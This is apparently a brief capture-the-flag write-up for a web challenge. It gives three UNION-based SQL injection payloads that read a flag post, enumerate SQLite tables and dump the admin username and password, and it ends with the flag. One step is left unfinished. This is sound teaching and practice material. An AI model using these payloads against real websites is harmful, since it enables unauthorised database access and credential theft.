




Challenge: Querying Flags

Category: Web


In app.py, 
```
flags.FLAG1
flags.FLAG2
flags.FLAG3
```
tells you where to find the flags. 

Query the website accordingly to get the 3 different parts of the flags. 



```
Payload used:
%' UNION SELECT id, title, content FROM posts WHERE title='Flag 1' --
```
Part 1 was in posts table, with a title of "Flag 1"


```
%' UNION SELECT 1, name, 3
FROM sqlite_master
WHERE type='table' --
```
Part 2 was 


%' UNION SELECT id, username, password FROM users WHERE username='admin' --

>Flag: 	HEX{sqli_byp4sS_t0L3e3e3eeeaa44kTh33e_whole_d4t3b4s3}